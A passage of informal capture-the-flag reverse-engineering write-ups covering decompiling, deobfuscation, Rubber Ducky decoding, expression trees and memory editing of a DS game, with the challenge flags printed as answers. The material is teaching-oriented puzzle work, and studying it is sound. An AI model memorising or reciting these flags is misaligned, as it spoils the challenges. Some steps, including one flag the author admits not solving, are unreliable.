0, 0, 1, 1, 0, 0, 0, 0, 1, 0, 1, 1, 0, 0, 1, 0, 1, 0, 0]

original_flag = [0x4b, 0xc3, 0xe1, 0x01, 0x00, 0xb9, 0xee, 0x10, 0xee, 0x4b, 0xf0, 0xa4, 0x78, 0x21, 0x38, 0xcb, 0xea, 0x2a, 0x21, 0x6b, 0xce, 0x83, 0x46, 0xe8, 0x41, 0xa7, 0x8c, 0x2c, 0x09, 0xcf, 0xf5, 0xa0, 0xa1, 0x72, 0x27, 0x08, 0x60, 0x28, 0xa9, 0x20, 0x66, 0xb3, 0xab, 0x35, 0xa4, 0xe9]

for i in range(0,len(bit_arr)):
    idx = bit_arr[i]
    if (idx == 1):
        v63 = int(i / 8)
        original_flag[v63] ^= 1 << (7 - i % 8); 

print(original_flag)
string = ''.join(chr(num) for num in original_flag)
print(string) # uiuctf{This is a fake flag. You are too fast!}
```

Cool. We are at a dead end now? There seems nothing to reverse now, and no way is flag unrelated with flipping right? We made a lot of wild guesses, including manually flipping random different bits and brute force same 8-bit chunks flips, but no luck. A few hours wasted.

### **Noticing missing bits**

The next day, we came to realize that something was ignored: we haven’t checked the actual operations executed to produce `gauntlet` and thus decrypt the flag. We put up [an Excel sheet](https://docs.google.com/spreadsheets/d/1i4zFNFSymCqdqm3iP6v1s-1HaSOSc_3uA496m-TTdGA/edit#gid=0) to document the operations.

```python
314.23572239497753 % -343.80018153073945
440.23960117225056 - 97.06735072845765
-101.85126480640992 % 430.61512281284047
26.566683118055153 / -179.0810006863229
-70.14572896052726 % -320.1140167220988
466.1142124377461 / -173.60461194722888
-2.338062192709174 % -435.2257228345381
-214.53669190732774 - -300.7554748526087
-98.75553114434364 ^ 87.0
......
66.37433504049558 ^ 14.781441588664144
-39.73744088699632 ^ 55.0
443.92105349183987 / 53.74338477053027
-0.4580954923237641 / -214.804781136109
```

The operation seems normal, but what about the functions used to compute the operation? Could they have issues? From the very beginning we were ignoring the `calculate` function and assumed they just did proper maths :>

```python
double __fastcall calculate(
        __int64 a1,
        __int64 a2,
        __int64 a3,
        __int64 a4,
        __int64 a5,
        __int64 a6,
        double a7,
        double a8,
        double a9,
        double a10,
        double a11,
        double a12,
        double a13,
        double a14,
        unsigned int a15,
        double a16,
        double a17)
{
  double v10; // [rsp+8h] [rbp-8h]

  v10 = 0.0;
  if ( a15 > '/' )
  {
    if ( a15 == '^' )
      return powf64(a16, a17);
  }
  else if ( a15 >= '%' )
  {
    switch ( a15 )
    {
      case '%':
        v10 = fmodf64(a16, a17);
        break;
      case '*':
        v10 = a17 * a16;
        break;
      case '+':
        v10 = a17 + a16;
        break;
      case '-':
        v10 = a16 - a17;
        break;
      case '/':
        v10 = a16 / a17;
        break;
      default:
        return v10;
    }
  }
  return v10;
}
```

Could functions result in wrong values here? I tried Python to reproduce the code but couldn’t find anything. But we are actually getting something different by using JavaScript:

```python
let arr = [
    "314.23572239497753 % -343.80018153073945",
    "440.23960117225056 - 97.06735072845765",
    ...
    "-0.4580954923237641 / -214.804781136109",
]

final_res = []

function isNegative(num) {
  if (Math.sign(num) === -1) {
    return true;
  }

  return false;
}

for (let i = 0; i < arr.length; i++) {
  result = eval(arr[i]);

  console.log(result)

  if (isNegative(result)){
    final_res.push(1);
  }
  else if (Object.is(result, -0)){
    final_res.push(1);
  }
  else{
    final_res.push(0);
  }
}

console.log(final_res);
// '0,0,1,1,1,1,1,0,1,0,1,0,1,0,1,0,1,0,0,1,0,1,0,0,0,1,1,0,0,0,1,0,0,1,1,1,0,1,0,0,1,1,0,1,1,1,1,1,1,0,0,1,0,1,0,1,0,1,1,1,1,1,1,0,1,1,0,1,1,1,1,0,0,0,1,1,1,1,1,1,1,0,1,0,1,1,1,1,1,1,1,1,0,1,1,1,0,0,0,1,0,1,1,1,0,1,1,1,1,1,1,0,0,1,0,1,1,1,1,0,1,1,1,1,1,1,1,1,1,1,0,1,1,1,1,1,0,1,0,1,1,1,1,0,0,1,1,1,1,1,1,0,0,0,0,1,1,1,0,0,1,1,1,1,1,1,1,1,1,1,1,1,0,1,1,1,0,0,1,0,1,1,1,0,1,0,1,1,0,1,1,1,0,1,1,1,0,0,0,1,1,1,0,0,0,1,0,1,1,1,1,1,1,1,1,1,0,1,0,0,1,1,1,1,0,1,1,1,1,1,0,0,1,0,1,1,1,1,0,1,1,1,0,0,0,1,1,0,1,1,1,1,1,1,1,1,1,1,0,0,0,0,1,1,0,1,0,0,0,0,1,1,0,1,0,1,0,0,1,1,0,1,1,1,1,0,1,1,0,0,1,1,1,1,1,1,0,1,0,0,0,1,1,1,1,1,0,0,1,1,1,1,0,1,1,1,1,1,1,1,0,0,1,0,1,0,1,1,1,1,0,1,0,0,1,0,1,1,1,1,1,1,1,1,0,1,0,1,1,1,0,1,1,1,0,1,0,1,1,1,1,0,0,1,0,1,0,0'
```

Something different is yielded. If we apply this bit flip to original encrypted data, we get the flag using the same script before: `uiuctf{n0t_So_f45t_w1th_0bscur3_b1ts_of_MaThs}`.

So, what was the issue? Checking the functions that got different bit flip, we notice there are a lot of `-0`:


Apparently, floating point maths optimizations happened in the `calculate` function, causing `isnan` and `isinf` to be optimized out completely. As a result, `x < 0.0` is false if `x == -0.0`… This is also why we got different results in JavaScript. It’s a quick funny “bug” that we are supposed to observe and exploit to get the flag.

### **Problem - 27 : ( decompile_me )**

jpalayoor GO DECOMPILE ME NOW!!!

[https://drive.google.com/file/d/1_C28L1CztqXHWN-m1umuJ-XyiQOnivhc/view?usp=drive_link](https://drive.google.com/file/d/1_C28L1CztqXHWN-m1umuJ-XyiQOnivhc/view?usp=drive_link)

Solution :

As you can see we don’t have much context rather than to decompile whatever we get. Within the zip attached to the challenge we have a pyc code file decompile-me.pyc and a textfile output.txt. The output.txt seems to be in some way encrypted when you look plain on it

```python
└─$ cat output.txt        
l6l;t54L6>-"|<@bQJ=m>c~?
```

But when we have closer look at the pyc file we have a bit more luck:

```python
└─$ file decompile-me.pyc                                                                                                                               
decompile-me.pyc: Byte-compiled Python module for CPython 3.7, timestamp-based, .py timestamp: Mon Apr 24 15:58:34 2023 UTC, .py size: 433 bytes
```

It is compiled with Python 3.7 and we knew that kind of every pyc file up to 3.9 can be recovered to source code by some tools. In our case we used an online tool which uses uncompyle6 [toolnb](https://www.toolnb.com/tools-lang-en/pyc.html). With that we already had the source code of the used python script which created the output.txt (*^‿^*) .


Gave Ghithub co-pilot multiple times to decrypt this encryption →

```python
from pwn import xor

# Read the encrypted data from the file
with open("output.txt", "rb") as f:
    enc = f.read()

# Split the encrypted data into three parts
a = enc[:len(enc) // 3]
b = enc[len(enc) // 3:2 * len(enc) // 3]
c = enc[2 * len(enc) // 3:]

# Perform XOR operations to decrypt in reverse order
c = xor(c, int(str(len(enc))[0]) * int(str(len(enc))[1]))
c = xor(b, c)
b = xor(a, b)
a = xor(c, a)
c = xor(b, c)
b = xor(a, b)
a = xor(a, int(str(len(enc))[0]) + int(str(len(enc))[1]))

# Concatenate the decrypted parts
flag = a + b + c

# Write the decrypted data to the output file
with open("flag_decrypted.txt", "wb") as f:
    f.write(flag)
```

Flag → SEE{s1mP4l_D3c0mp1l3r_XDXD}

### **Problem - 28 : ( Data Structures and Algorithms )**

Fawl It's your second semester in SEE-IA, and they're making you learn about data structures & algorithms. You don't get what it has to do with anything you'll be doing - how does capturing a bunch of escaped hackers need boring linked lists and trees? Classes are so boring, and sometimes you wish you could just drop out if the fate of the world wasn't hanging in the balance. But oh well, this is your last assignment. Better do a good job of it!

[https://drive.google.com/file/d/1UCgjIMEUMutOTVXfaIMdxg0YcuW8ELOI/view?usp=drive_link](https://drive.google.com/file/d/1UCgjIMEUMutOTVXfaIMdxg0YcuW8ELOI/view?usp=drive_link)

Solution :

We are given a Windows PE file which prompts for flag upon execution. In decompiled `main`,

```python
v3 = sub_14000F2E0(std::cout, "Heard of a binary tree?", envp);
std::ostream::operator<<(v3, sub_14000F5E0);
v5 = sub_14000F2E0(std::cout, "Heard of an expression tree?", v4);
std::ostream::operator<<(v5, sub_14000F5E0);
v7 = sub_14000F2E0(std::cout, "Birds perch in trees too", v6);
std::ostream::operator<<(v7, sub_14000F5E0);
sub_14000F2E0(std::cout, "What's the flag? >> ", v8);
```

It further has a check which needs to return 0:

```python
v10 = sub_140001970(v9);
v12 = "Congrats!";
if ( v10 )
    v12 = "Try harder!";
```

Checking `sub_140001970`, it is a long function with many similar code blocks in the following format (I took the first block here):

```python
sub_14000F050(v2340, "2");
sub_14000F050(v2341, "2");
sub_14000F050(v2342, "*");
sub_14000F050(v2343, "2");
sub_14000F050(v2344, "*");
sub_14000F050(v2345, "7");
sub_14000F050(v2346, "+");
sub_14000F050(v2347, "2");
sub_14000F050(v2348, "2");
sub_14000F050(v2349, "*");
sub_14000F050(v2350, "2");
sub_14000F050(v2351, "*");
sub_14000F050(v2352, "+");
sub_14000F050(v2353, "2");
sub_14000F050(v2354, "2");
sub_14000F050(v2355, "*");
sub_14000F050(v2356, "2");
sub_14000F050(v2357, "*");
sub_14000F050(v2358, "+");
sub_14000F050(v2359, "7");
sub_14000F050(v2360, "+");
sub_14000F050(v2361, "2");
sub_14000F050(v2362, "2");
sub_14000F050(v2363, "*");
sub_14000F050(v2364, "3");
sub_14000F050(v2365, "*");
sub_14000F050(v2366, "+");
sub_14000F050(v2367, "7");
sub_14000F050(v2368, "+");
sub_14000F050(v2369, "2");
sub_14000F050(v2370, "2");
sub_14000F050(v2371, "*");
sub_14000F050(v2372, "2");
sub_14000F050(v2373, "*");
sub_14000F050(v2374, "+");
sub_14000F050(v2375, "2");
sub_14000F050(v2376, "5");
sub_14000F050(v2377, "*");
sub_14000F050(v2378, "+");
sub_14000F050(v2379, "2");
sub_14000F050(v2380, "2");
sub_14000F050(v2381, "*");
sub_14000F050(v2382, "2");
sub_14000F050(v2383, "*");
sub_14000F050(v2384, "+");
```

At this point, the values already looked like some abstract syntax tree. Since challenge hints on “binary expression tree”, I quickly looked it up and found [online Python program](https://www.tutorialspoint.com/program-to-build-and-evaluate-an-expression-tree-using-python) which takes the post-order traversal of the tree and evaluates it. Evaulating on above code’s numbers `['2','2','*','2',...,'2','*','+']` gives `83` which is the first letter of the flag “S”.And there were 64 times that type parsing was mentioned in the reverse code of Hex-rays .

And for the last →


And Ascii of 125 → } 

I should have done it with scripting, but I didn’t know there will be long random hex at the end of the flag at that time and chose to do it manually. Flag is really long and very painful for me: `SEE{5w1n61n6_7hr0u6h_7h3_7r335_51e72e7f398a4fb0e3b8cg8457167552}`.

### **Problem - 29 : ( Ducky 1 )**

I recently got ahold of a Rubber Ducky, and have started automating ALL of my work tasks with it! You should check it out!

[https://drive.google.com/file/d/1sjUQiSQi8EYxW5Ni-UZzlXnVdb7yivHI/view?usp=drive_link](https://drive.google.com/file/d/1sjUQiSQi8EYxW5Ni-UZzlXnVdb7yivHI/view?usp=drive_link)

Solution :

Using a decoder like the online one at [https://ducktoolkit.com/decode](https://ducktoolkit.com/decode) or `decoder.py` (available from GitHub) will decode the string using the default US keyboard.

If the site don’t work →


To decode point the script at your inject.bin file, select an output and a language as show in the example below:

```bash
ducktools.py -d -l gb /path/to/inject.bin /path/to/output.txt
```

**Flag** - `byuctf{this_was_just_an_intro_alright??}`

### **Problem - 30 : ( Ducky-2 )**

`Okay, turnsk out that wask too easy to decode. You skhoud definitely try thisk one now!`

[https://drive.google.com/file/d/16nwdjzcGwmxr3Z0e-8PvbgOzI8AzaA0x/view?usp=drive_link](https://drive.google.com/file/d/16nwdjzcGwmxr3Z0e-8PvbgOzI8AzaA0x/view?usp=drive_link)

Solution :

like the before problem →


Using one of the tools available in the first won't work because this uses SK.json as the keyboard layout. The text is pretty readable (gives you `makesurezourkezboardissetupright`), but the symbols in the remainder of the flag won't decode right. You'll have to use the JSON file available [here](https://github.com/hak5/usbrubberducky-payloads/blob/master/languages/sk.json) to decode it.

You can download the language from this site and download the “ sk.json “ file→
[https://github.com/hak5/usbrubberducky-payloads/blob/master/languages](https://github.com/hak5/usbrubberducky-payloads/blob/master/languages)

If this sk.json can be attached with the tool you can crack the flag sadly i was unable to crack that :{ . The online site is not also active .


**Flag** - `byuctf{makesureyourkeyboardissetupright)@&%(#@)!(#*$)}`

This challenge can be made more dificult by creating yours own .json script .

### **Problem - 31 : ( ObfuscJStore )**

`Obfuscated JavaScript?? Really??`

[https://drive.google.com/file/d/18nLl7ezKt3RHgJxlvP4E5vnoTDy9w_Nj/view?usp=drive_link](https://drive.google.com/file/d/18nLl7ezKt3RHgJxlvP4E5vnoTDy9w_Nj/view?usp=drive_link)

Solution :

As said the title and description. We get as attachment an obfuscated JavaScript code.

```bash
function _0x12de(){var _0x6ab222=['\x2e\x69\x6f','\x75\x73\x63\x61\x74','\x37\x32\x4f\x4f\x6e\x7a\x73\x4d','\x61\x5f\x74\x6f\x6f','\x6c\x6f\x67','\x62\x79\x75\x63\x74','\x32\x30\x35\x38\x31\x31\x31\x56\x73\x4a\x6d\x4e\x74','\x64\x61\x79\x73\x5f','\x35\x62\x6b\x68\x53\x6b\x77','\x36\x32\x37\x38\x77\x53\x77\x45\x56\x49','\x31\x32\x35\x33\x31\x33\x30\x78\x4e\x74\x74\x57\x77','\x48\x6d\x6d\x6d\x6d','\x6c\x5f\x74\x6f\x5f','\x77\x68\x65\x72\x65','\x66\x6c\x61\x67\x20','\x34\x31\x30\x35\x39\x34\x34\x58\x71\x67\x53\x54\x64','\x31\x30\x69\x47\x78\x53\x78\x74','\x35\x33\x4d\x50\x56\x43\x43\x73','\x63\x61\x74\x6f\x72','\x6d\x61\x6b\x65\x5f','\x6f\x62\x66\x75\x73','\x32\x35\x34\x30\x30\x39\x74\x71\x59\x51\x79\x6b','\x35\x31\x30\x35\x30\x31\x46\x57\x64\x52\x56\x71','\x66\x7b\x6f\x6e\x65','\x64\x65\x6f\x62\x66','\x68\x65\x73\x65\x5f','\x5f\x6f\x66\x5f\x74','\x31\x37\x32\x36\x34\x35\x6f\x6b\x76\x58\x66\x70','\x69\x73\x3f','\x34\x6d\x6f\x71\x49\x6c\x56'];_0x12de=function(){return _0x6ab222;};return _0x12de();}(function(_0x2a4cef,_0x9e205){var _0x539a11=_0x2a7d,_0x40cc8a=_0x2a4cef();while(!![]){try{var _0x2d47a2=-parseInt(_0x539a11(0x1f1))/0x1*(-parseInt(_0x539a11(0x207))/0x2)+parseInt(_0x539a11(0x1f6))/0x3*(parseInt(_0x539a11(0x1fd))/0x4)+-parseInt(_0x539a11(0x206))/0x5*(-parseInt(_0x539a11(0x208))/0x6)+-parseInt(_0x539a11(0x1f5))/0x7*(parseInt(_0x539a11(0x200))/0x8)+parseInt(_0x539a11(0x204))/0x9*(-parseInt(_0x539a11(0x1f0))/0xa)+parseInt(_0x539a11(0x1fb))/0xb+parseInt(_0x539a11(0x1ef))/0xc;if(_0x2d47a2===_0x9e205)break;else _0x40cc8a['push'](_0x40cc8a['shift']());}catch(_0x4063a2){_0x40cc8a['push'](_0x40cc8a['shift']());}}}(_0x12de,0x54f50));function _0x2a7d(_0x339bb1,_0x1a0657){var _0x12def3=_0x12de();return _0x2a7d=function(_0x2a7d9a,_0x2b9202){_0x2a7d9a=_0x2a7d9a-0x1ee;var _0x34fb38=_0x12def3[_0x2a7d9a];return _0x34fb38;},_0x2a7d(_0x339bb1,_0x1a0657);}function hi(){var _0x398601=_0x2a7d;document['\x64\x6f\x6d\x61\x69'+'\x6e']==_0x398601(0x1f4)+_0x398601(0x1f2)+_0x398601(0x1fe)&&console[_0x398601(0x202)](_0x398601(0x203)+_0x398601(0x1f7)+_0x398601(0x1fa)+_0x398601(0x1f9)+_0x398601(0x205)+'\x69\x6d\x6d\x61\x5f'+_0x398601(0x1f3)+_0x398601(0x201)+_0x398601(0x20a)+_0x398601(0x1f8)+_0x398601(0x1ff)+'\x65\x5f\x74\x68\x69'+'\x73\x7d'),console['\x6c\x6f\x67'](_0x398601(0x209)+'\x20\x49\x20\x77\x6f'+'\x6e\x64\x65\x72\x20'+_0x398601(0x20b)+'\x20\x74\x68\x65\x20'+_0x398601(0x1ee)+_0x398601(0x1fc));}hi();
```

Go to an online deobufscator, and deobfuscate our JavaScript code.

Source : https://deobfuscate.io/


Nice now we go to an Online JavaScript console (or real one, as you pref), we copy paste the code and run it.

Source : [https://jsconsole.com/](https://jsconsole.com/)


We get an console output saying `Hmmmm I wonder where the flag is?`

Looking at the code, we notice the `console.log` which return this result.


We can notice that it ignore a lot of code previously, and we notice something which seem like some flag parts.


Now also attach the ” document.domain “ part at first . 


Flag → byuctf{one_of_these_days_imma_make_a_tool_to_deobfuscate_this}

### **Problem - 32 : ( Prompt )**

See if you can find the flag!

[https://drive.google.com/file/d/1rqWv7CSD51cb6EErqZktT4Bm9Jy1Gass/view?usp=drive_link](https://drive.google.com/file/d/1rqWv7CSD51cb6EErqZktT4Bm9Jy1Gass/view?usp=drive_link)

Solution :

As usual, the first thing to do is see if there's anything interesting using the 'strings' command and the only interesting thing seemed to be the following string

> Xmj%yzwsji%rj%nsyt%f%sj|y
> 

I decided to open the program in ghidra to see what's going on. I found the following code in main:

```
    local_108 = 0x6e806b79687a7e67;
    local_100 = 0x4c64;
    uStack_fe = 0x796a38647935;
    uStack_f8 = 0x6a59;
    local_f6 = 0x823a3c3e36642657;
    decrypt_passphrase(&local_108,local_178,5);
    print_flag(local_178);]
```

It seems like a string we could use as it's passed to a function decrypt_passphrase as an argument. After taking a look at the function and changing some variable names, we come to see the following code:

```
    void decrypt_passphrase(long in_str,long out_str,char int_5)

    {
        int i;

        for (i = 0; *(char *)(in_str + i) != '\0'; i = i + 1) {
            *(char *)(out_str + i) = *(char *)(in_str + i) - int_5;
        }
        *(undefined *)(out_str + i) = 0;
        return;
    }
```

What this does is simply subtract 5 from the ascii value of each character. We can easily do this ourselves with some simple python code. Note that chars are read right-to-left. I clearly forgot about the other string so the following is the code I used to get the flag:

```
a = [0]*5 #the following are just strings that i found in ghidra
a[0] = '6e806b79687a7e67'
a[1] = '4c64'
a[2] = '796a38647935'
a[3] = '6a59'
a[4] = '823a3c3e36642657'
s = "".join([(bytes.fromhex(substr).decode('latin-1'))[-1::-1] for substr in a])
print("".join([chr(ord(c)-5) for c in s]))
```

The flag is the following

> byuctf{i_G0t_3etTeR!_1975}
> 

A more optimal way to solve the challenge is to use a similar code to put the string we found using 'strings' command


```
print("".join([chr(ord(c)-5) for c in "Xmj%yzwsji%rj%nsyt%f%sj|y"]))
```

This returns the following string:

> She turned me into a newt
> 

Which when put as an input to the program also gives the flag... A much simpler way to do it.

### **Problem - 33 : ( Brick Breaker )**

Stole some resources from public domain and made a brick breaker clone. Collision detection is bad and it's pretty hard, but see if you can find the hidden message!

[`ctf.nds`](https://github.com/D13David/ctf-writeups/blob/main/tenablectf23/rev/brick_breaker/ctf.nds)

[https://drive.google.com/file/d/1MlTZC7RujyuKJBVhaGuJSMzx9WsBh74Q/view?usp=drive_link](https://drive.google.com/file/d/1MlTZC7RujyuKJBVhaGuJSMzx9WsBh74Q/view?usp=drive_link)

Solution :

FileInfo suggests this file opener .


[https://drive.google.com/file/d/1QDN-ru-yT1AFEDn_c-zGrWFEQWpFidE5/view?usp=drive_link](https://drive.google.com/file/d/1QDN-ru-yT1AFEDn_c-zGrWFEQWpFidE5/view?usp=drive_link)

Disclaimer: I didn't finish this challenge in the CTF but picked it up again in aftermath.

For this challenge a `nds` file is given. When running through `file` we are told the file is an `Nintendo DS ROM image`.

```
$ file ctf.nds
ctf.nds: Nintendo DS Slot-2 ROM image (PassMe)
```

For `DS` reversing there are quite a few [`tools`](https://www.nogba.com/no$gba-download.htm) and [`resources`](https://problemkaputt.de/gbatek.htm) [`available`](https://www.starcubelabs.com/reverse-engineering-ds/).

For this challenge I use [`DeSmuME`](http://desmume.org/) as this emulator capability to nice and easy inspect memory activity. After opening the ROM we can play a game of `Brick Breaker`. Looking at the first level it is pretty obvious the flag is spelled out level by level one character each and starting with an `f`.


The problem only is, the game is hard and gives us only 5 tries. To cope with this we can search the memory location where `lives` are stored and change this to something large.

DeSmuME offers a nice memory search functionality. First, after the game started, do a pass for all bytes with value `5`. The storage size is a good guess and the value we know since it's displayed in one of the background layer images and after 5 tries the game resets.

After loosing one live we do another scan. This time for `comparison operator: difference by 1` and `compare by: previous value`. This procedure is repeated until the list of potential candidates is small enough for further inspection.


Here only two addresses are left. Jumping to the memory locations we can observe what value decreases by one after each lost ball. Also setting the value to something else should reflect in the background layer rendering.

```
3C 00 00 00 00 00 00 00 FF 00 02 00 F0 00 00
                        ^^
                        offset 02060DB8
```


So, we have enough lives now and can just play all the levels to get the flag. It starts well, we get `f`, `l`, `a` and `g` but then the game jumped back to the first level again. Sad... This is where I ran out of time, I did a bit of inspection but to no good result.

Another day and a bit of input from the community. I played the game and observed the memory location where `lives` are stored. Very close by a number increased every time a level was finished by one, this looks suspiciously like a `next level` value.

You have to store all levels and all lives memory dump each time and have to compare those to find that particular place of changing

```
3C 00 00 00 00 00 00 00 FF 00 03 00 F0 00 00
|
v
3C 00 00 00 00 00 00 00 FF 00 04 00 F0 00 00
|
v
3C 00 00 00 00 00 00 00 FF 00 05 00 F0 00 00
                              ^
                              next level is reset to 1 after reaching 5
```

Setting the value to `6` (so it jumps over level 5 which the game resets to the first level) and it works, we end up in level `6` and can play the whole rest of the game...

```
3C 00 00 00 00 00 00 00 FF 00 06 00 F0 00 00
                              ^
                              manually jump over level 5
```

...and fetching the [`flag`](https://github.com/D13David/ctf-writeups/blob/main/tenablectf23/rev/brick_breaker/images/levels.png)


Flag `flag{Br3Ak0U7!!1}`

### **Problem - 34 : ( meow meow LACTF 2023 )**

When I was running my cyber lab, I asked if anyone doesn't like cats, and no one raised their hard, so it is FINAL, **CATS >> DOGS**!!!!! As a test, you need to find the cat in the sea of dogs in order to get the flag.

Note: data.zip expands to around 575 MB.

Author: burturt

[`data.zip`](https://github.com/D13David/ctf-writeups/blob/main/lactf24/rev/meow_meow/data.zip) [`meow`](https://github.com/D13David/ctf-writeups/blob/main/lactf24/rev/meow_meow/meow)

[https://drive.google.com/file/d/1fsUfhbx-h8LEE881gq0aS68Oi8ww3wjU/view?usp=drive_link](https://drive.google.com/file/d/1fsUfhbx-h8LEE881gq0aS68Oi8ww3wjU/view?usp=drive_link)

[https://drive.google.com/file/d/1gkfvrsjKEm9aR3HD0CSQqnxLNXnzNQTf/view?usp=drive_link](https://drive.google.com/file/d/1gkfvrsjKEm9aR3HD0CSQqnxLNXnzNQTf/view?usp=drive_link)

Solution :

We have a stripped binary that we want to look at first with `Ghidra`. Since it's stripped we have to find the main by inspecting `entry`. But easily enough we get the main functionality. Lets break this down a bit.

The first part simply prints a message and reads some user input. Then the length of the input is calculated and tested to be a multiple of `5`. If not the program prints `WOOOOOOOF BARK BARK BARK` and exists.

```cpp
printf("Meow Meow? ");
fgets((char *)&local_138,0x5f,stdin);
sVar3 = strcspn((char *)&local_138,"\n");
*(undefined *)((long)&local_138 + sVar3) = 0;
sVar3 = strlen((char *)&local_138);
if (sVar3 == (sVar3 / 5) * 5) {
    // ...
}
else {
    puts("WOOOOOOOF BARK BARK BARK");
    uVar4 = 1;
}
return uVar4;
```

The next part loops over the user input and calls `FUN_00101225`. The function basically maps all lower case characters `a-z` to `0-25` as well as `_` to `26`, `{` to `27` and `}` to `28`. In any other case the function returns `-1` causing the program to print a error message and exit. This strongly smells like a flag format validation, so we can assume the flag is all lower-case `a-z` plus `{`, `}` and `_`.

```cpp
for (local_1c = 0; uVar5 = (ulong)local_1c, sVar3 = strlen((char *)&local_138), uVar5 < sVar3; local_1c = local_1c + 1) {
    uVar1 = FUN_00101225((int)*(char *)((long)&local_138 + (long)local_1c));
    *(undefined *)((long)&local_1a8 + (long)local_1c) = uVar1;
    if (*(char *)((long)&local_1a8 + (long)local_1c) == -1) {
        puts("WOOOOOOOF BARK BARK BARK");
        return 2;
    }
}
```

```cpp
int FUN_00101225(byte param_1)
{
  int iVar1;
  ushort **ppuVar2;

  ppuVar2 = __ctype_b_loc();
  if (((*ppuVar2)[(char)param_1] & 0x200) == 0) {
    if (param_1 == 0x5f) {
      iVar1 = 0x1a;
    }
    else if (param_1 == 0x7b) {
      iVar1 = 0x1b;
    }
    else if (param_1 == 0x7d) {
      iVar1 = 0x1c;
    }
    else {
      iVar1 = -1;
    }
  }
  else {
    iVar1 = param_1 - 0x61;
  }
  return iVar1;
}
```

The magic numbers `0x61746164` and `0x30` expand to `data` and `0`. Then the program loops through `data0` - `data7` and checks if the files are accessible. If not again a error is printed and the program exits. This part obviously tests if the data files are present and accessible.

```cpp
local_1ae = 0x61746164;
local_1aa = 0x30;
local_20 = 0;
while( true ) {
    uVar5 = (ulong)local_20;
    sVar3 = strlen((char *)&local_138);
    if (sVar3 / 5 <= uVar5) break;
    local_1aa = CONCAT11(local_1aa._1_1_,(char)local_1aa + '\x01');
    iVar2 = access((char *)&local_1ae,0);
    if (iVar2 != 0) {
        if (local_20 == 0) {
            puts(
                "Error: make sure you have downloaded and extracted the data.zip files into the same folder as the executable."
                );
            return 1;
        }
        puts("WOOOOOOOF BARK BARK BARK");
        return 3;
    }
    local_20 = local_20 + 1;
}
```

The last part of the main function runs a parallel loop on the user input calling function `FUN_0010167a`. Then `local_b8` is assumed to have the value `7`, that looks like our success path. We also can assume that `local_b8` is somehow written by the parallel loop, even though Ghidra misses this in the decompiled code. Passed into the function are the user input `local_c8`, and the user input transformed to an index array `local_c0` (as we talked about when covering function `FUN_00101225`).

```cpp
local_28 = 0;
local_b8 = 0;
local_c8 = &local_138;
local_c0 = &local_1a8;
GOMP_parallel(FUN_0010167a,&local_c8,0,0);
local_28 = local_b8;
if (local_b8 == 7) {
    printf("MEOW");
    for (local_24 = 0; local_24 < 1000; local_24 = local_24 + 1) {
        putchar(0x21);
        fflush(stdout);
        usleep(1000);
    }
    putchar(10);
    uVar4 = 0;
}
else {
    puts("Woof.....");
    uVar4 = 0xffffffff;
}
```

Function `FUN_0010167a` has a lot of parallel loop boilerplate code we can ignore. The input data is split in parts and assigned each as thead workload etc... The interesting part comes afterwards. Each workload works on one of the `data` files. The file is opened. The program jumps to an offset (`local_24*0x74`) and reads `0x74` bytes from this position. From this buffer the next offset is read whereas the index is coming from `local_2d = param_1[1][local_20 * 5 + local_28]`, that is our flag in index form (remember function `FUN_00101225`).

```cpp
void FUN_0010167a(char **param_1)
{
  // ... boilerplate

  for (; local_20 < iVar6; local_20 = local_20 + 1) {
    local_33 = 0x61746164; // "data"
    local_2f = (ushort)(byte)((char)local_20 + 0x31); // '0' + worker index
    local_2c = open((char *)&local_33,0);
    local_24 = 0;
    for (local_28 = 0; local_28 < 5; local_28 = local_28 + 1) {
      lseek(local_2c,(ulong)(uint)(local_24 * 0x74),0);
      local_2d = param_1[1][local_20 * 5 + local_28];
      read(local_2c,local_a8,0x74);
      local_24 = local_a8[(int)local_2d];
    }
    if (local_24 == 0x63617400) { // "cat\0"
      local_1c = local_1c + 1;
    }
  }
  LOCK();
  *(int *)(param_1 + 2) = *(int *)(param_1 + 2) + local_1c;
  UNLOCK();
  return;
}
```

So we can basically untangle the file format. Every of the data files is split into 0x74 chunks. The chunks are a list of indice to other chunks, for each of the 29 alphabet characters one index that can be looked up. Every data file handles `5` consecutive characters of the flag and for each character this index chain is done `4` times. The last index points to a pseudochunk that doesn't contain indice but `dog\0` or `cat\0` sequences. If we reach a `cat\0` at the end, the character is validated as correct.

To get the flag we can just move backwards for each character, starting at th `cat\0` position (only one is given per data file) and searching what chunk references this position. Doing this 4 times gives us the starting chunk and the index of the flag character. The [`following program`](https://github.com/D13David/ctf-writeups/blob/main/lactf24/rev/meow_meow/reconstruct.cpp) will do this to reconstruct the flag.

```cpp
#include <stdio.h>
#include <malloc.h>
#include <assert.h>

#define MAX_DATA_FILES  7
#define SECTION_SIZE    116
#define ALPHABET_LENGTH 29

#define MAKE_WORD(a,b,c,d) (((a)<<24)|((b)<<16)|((c)<<8)|(d))

typedef struct data_s
{
    unsigned char* buffer;
    int numSections;
    int startOffset;
} data_t;

void readDataFile(int index, data_t& data)
{
    char buffer[16];
    sprintf_s(buffer, "data%d", index);

    FILE* fp;
    if (fopen_s(&fp, buffer, "rb") != 0)
    {
        printf("failed reading '%s'\n", buffer);
        return;
    }

    fseek(fp, 0L, SEEK_END);
    long size = ftell(fp);
    fseek(fp, 0L, SEEK_SET);

    data.buffer = (unsigned char*)malloc(size);
    if (data.buffer == NULL || fread_s(data.buffer, size, sizeof(unsigned char), size, fp) != size)
    {
        printf("failed reading '%s'\n", buffer);
    }
    else
    {
        data.startOffset = -1;
        data.numSections = size / SECTION_SIZE;

        for (int offset = SECTION_SIZE; offset < size && data.startOffset == -1; offset += SECTION_SIZE)
        {
            for (int j = offset; j < offset + SECTION_SIZE; ++j)
            {
                if ((*(unsigned int*)&data.buffer[j]) == MAKE_WORD('c','a','t',0))
                {
                    data.startOffset = j;
                    break;
                }
            }
        }

        assert(data.startOffset != -1 && "no start section found");
    }

    fclose(fp);
}

char indexToChar(int index)
{
    if (index < 26) {
        return index + 'a';
    }

    if (index == 26) {
        return '_';
    }
    if (index == 27) {
        return '{';
    }
    if (index == 28) {
        return '}';
    }

    return 0;
}

int findNextSection(const data_t& data, int currentSection, int& index)
{
    for (int section = 0; section < data.numSections; ++section)
    {
        unsigned int* offsets = (unsigned int*)&data.buffer[section * SECTION_SIZE];
        for (int offset = 0; offset < ALPHABET_LENGTH; ++offset)
        {
            if (offsets[offset] == currentSection)
            {
                index = offset;
                return section;
            }
        }
    }
    return -1;
}

int sectionOffsetToIndex(int offset, int section)
{
    return (offset - section * SECTION_SIZE) / sizeof(int);
}

int main()
{
    data_t data[7];
